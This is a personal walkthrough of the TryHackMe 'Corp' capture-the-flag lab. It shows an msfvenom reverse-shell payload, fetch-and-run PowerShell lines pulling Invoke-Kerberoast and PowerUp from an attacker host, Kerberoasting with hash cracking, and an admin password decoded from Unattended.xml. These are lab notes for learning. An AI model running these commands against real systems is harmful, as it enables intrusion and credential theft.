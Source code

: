```yaml
---
title: "Corp"
---
```


:::info Description

These are my notes for the [Corp Room](https://tryhackme.com/room/corp) on TryHackMe.

Note: Task #1 is to deploy the machine.

|OS|Level|Rating
|:---:|:-----:|:-----:|
|Windows|Easy|5/5|

:::

## TASK2: BYPASS APPLOCK

I RDP to the machine with login details provided. On the machine I can't execute anything with AppLocker tripping and stopping me.

### shell.exe

I want to generate a malicious shell and download to an 'allow-listed' directory e.g. `C:\Windows\System32\spool\drivers\color`.

Generate: `msfvenom -p windows/shell_reverse_tcp LHOST=10.11.55.83 LPORT=80 -e x86/shikata_ga_nai -f exe -o shell.exe`

Serve it from my attack machine: `sudo python3 -m http.server 80`

Try pull it down from my RDP session: `certutil.exe -urlcache -f http://10.11.55.83/shell.exe shell.exe` WRONG.

Try again with PowerShell: `Invoke-WebRequest -Uri "http://10.11.55.83/shell.exe" -OutFile ".\shell.exe"` CORRECT.

download to directory: `C:\Windows\System32\spool\drivers\color` successful, but running the exe kept tripping AV. need to look into obfuscating binary in some way.

## TASK3: KERBEROASTING

Follow instructions on how to complete this task.

### enumerate windows

Looking for existing Service Principals (spn):

```powershell
PS C:\Users\dark> setspn.exe -T medin -Q */*
Ldap Error(0x51 -- Server Down): ldap_connect
Failed to retrieve DN for domain "medin" : 0x00000051
Warning: No valid targets specified, reverting to current domain.
CN=OMEGA,OU=Domain Controllers,DC=corp,DC=local
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/omega.corp.local
        ldap/omega.corp.local/ForestDnsZones.corp.local
        ldap/omega.corp.local/DomainDnsZones.corp.local
        TERMSRV/OMEGA
        TERMSRV/omega.corp.local
        DNS/omega.corp.local
        GC/omega.corp.local/corp.local
        RestrictedKrbHost/omega.corp.local
        RestrictedKrbHost/OMEGA
        RPC/7c4e4bec-1a37-4379-955f-a0475cd78a5d._msdcs.corp.local
        HOST/OMEGA/CORP
        HOST/omega.corp.local/CORP
        HOST/OMEGA
        HOST/omega.corp.local
        HOST/omega.corp.local/corp.local
        E3514235-4B06-11D1-AB04-00C04FC2DCD2/7c4e4bec-1a37-4379-955f-a0475cd78a5d/corp.local
        ldap/OMEGA/CORP
        ldap/7c4e4bec-1a37-4379-955f-a0475cd78a5d._msdcs.corp.local
        ldap/omega.corp.local/CORP
        ldap/OMEGA
        ldap/omega.corp.local
        ldap/omega.corp.local/corp.local
CN=krbtgt,CN=Users,DC=corp,DC=local
        kadmin/changepw
CN=fela,CN=Users,DC=corp,DC=local
        HTTP/fela
        HOST/fela@corp.local
        HTTP/fela@corp.local

Existing SPN found!
```

### get kerberoast.ps1

no external network, served the kerberoast ps1 from my local webserver:

```powershell
PS C:\Users\dark> iex(New-Object Net.WebClient).DownloadString('http://10.11.55.83/Invoke-Kerberoast.ps1')
PS C:\Users\dark> Invoke-Kerberoast -OutputFormat hashcat|fl


TicketByteHexStream  :
Hash                 : $krb5tgs$23$*fela$corp.local$HTTP/fela*$1F4596FE1600B29B2C9C9372905C3DAA$55AD748236930A037C
                       D75C0720E2B5416A7A48FD40189B621C110C19DC51AA947718EFE907583823B8FF220F32E1277F3FEB01DE738E8
                       5DC1F15ACEDAAC6C0B30C66936464C1F0B20388F539EDCDA68FE4A588383BC8A4E139C491EE5B5ACF4481954D86
                       86DDF9C4E685628AAFAA95BCFE5E3FE2E8C1CCECE32071EBB07997C0B5C6B8814EBF973C9486680FA944F98F6A2
                       46D50205A9BB026D43CC326D053346767F54DC4FF4F822548F0FF0BA58D58A3BA14ABF05A004B4E50D42F68664A
                       E4EAC6660FADAA4B87A61A227CC956CBCF6E7FEA4AFFFFD6374AC20614177BF09C54F2EEE0CA2615FA4FA941430
                       1D251AB5616774D07FEF1E3F4337D9AB58A33861A7B95120E0BDD537D5CA2E1427CB4075FDE81AAC3FF502AA8C1
                       9CB629C69211D19193A498F36DDD8EF1630A95E22E35B6A72E1482B5A4231F3A6B335A6F88954FBE5E3BD25287D
                       B91AF143BB91C6A5538776CAF5E339C8CB045E4927F7395D606FC90DFD60ABAF04FA39D42D684FC9E70A521CA50
                       272C43CA51E2C7C85C470BEA4509F4EAA84467F9878B96D1CA32550E635175C0E5129669F8F80264D451A83D9E8
                       6E6A1FBD6E5B0436C20D43B5187F80A626EEF84D0477AFBA4729F0342601CFCE3FA891229959D8EFF0A48ABB782
                       146105769CFEF0C19A60DB10943323D11BED7CFD65C56B2D2CB5CDC5D0B13580469F0664188427C86D5F758A53B
                       7041DD9678439695545A5A19497FDF82E02F51427D1E1AC2BD9AA23CF87F45925BE17707244D3920D7F144199D0
                       DCD58968D5B07FBE9753109AC735442A85111D1DC8246A86E68E5F18DBB18511C9842EB9CBD0E0E74380DA176BF
                       68A1235AD6FD99CAAB44184709339845D2FE3AA2A1ADC0A5FD27374DA33CF19A674AF740368A4862295414FF2A6
                       DAEE9B2E17E911374292A8D08A42A5D83DE63C7B9026C83BC8A47DAE2F46BAC78B86051565C8BF078ED8E73C8DB
                       CA22C382CF4633DD0C9573EF300CC836377FADB488936B2DD07922D544EE85FA50BA0514F72EE7288FC4A028035
                       ABD9E255D424B4B7A80DCCA27846C2EDE8957EA025F49A1D9367B9309D4516B30694C34E10EEC694795FE1D3BC3
                       E0D86332124ED33F9A3084F25B3BA2DD59AEB585FC94BE95A7AABF7165377EA92AEDF441E6C2D29E2F2501DFA0B
                       255AA76A3869D8262D0A6D7F3C6BDD17BC83AB5EC85D9DB71D58B00EC8F7F4E001C9C856F812ADD9ED42905A03B
                       17ED2ACB153D7B2D334C05BFBC68AFC0ECEFA97864F4B060D612B3FE436FA6B3DE682DF0E2788AAB4F57DF35D08
                       4CDB2290DB60B8F4C30717084A6125BC79538B128DF1F73603F40448F4934AF27D3711682B5516EB2902A86E639
                       45BC7FD6D75A10558E7A419AA006C1DCC9AB195E757F521513299C3B2
SamAccountName       : fela
DistinguishedName    : CN=fela,CN=Users,DC=corp,DC=local
ServicePrincipalName : HTTP/fela
```

### crack hash

copied the hash to a text file `hash.txt` and then used `cat hash.txt | tr -d "[:space:]" > hash.file` to remove all whitespaces and join the hash up.

then used john (thanks tedd) to crack:

```bash
➜  CORP git:(main) ✗ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rubenF124        (?)
1g 0:00:00:07 DONE (2022-03-31 22:36) 0.1340g/s 554003p/s 554003c/s 554003C/s rubens02..ruben4484
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

show

```bash
➜  CORP git:(main) ✗ john --show hash.txt
?:rubenF124

1 password hash cracked, 0 left
```

## PRIVESC: user

RDP logged in as `fela` and got flag from desktop.

## PRIVESC: root

Web served the `PowerUp.ps1` script from my attack machine: `iex​(New-Object Net.WebClient).DownloadString('http://http://10.11.55.83/download/PowerUp.ps1')`

### PowerUp.ps1

Found a hash value:

```powershell
PS C:\Users\fela.CORP> iex(New-Object Net.WebClient).DownloadString('http://10.11.55.83/download/PowerUp.ps1')
PS C:\Users\fela.CORP> type C:\Windows\Panther\Unattend\Unattended.xml
<AutoLogon>
    <Password>
        <Value>dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=</Value>
        <PlainText>false</PlainText>
    </Password>
    <Enabled>true</Enabled>
    <Username>Administrator</Username>
</AutoLogon>
```

```bash
dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=
certutil.exe -decode "C:\path\to\b64.txt" decode.txt`

$echo dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ= | base64 -d
tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T
```

Use `tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T` admin password with `evil-winrm` login as Admin, grab flag from `C:\Users\Administrator\Desktop`
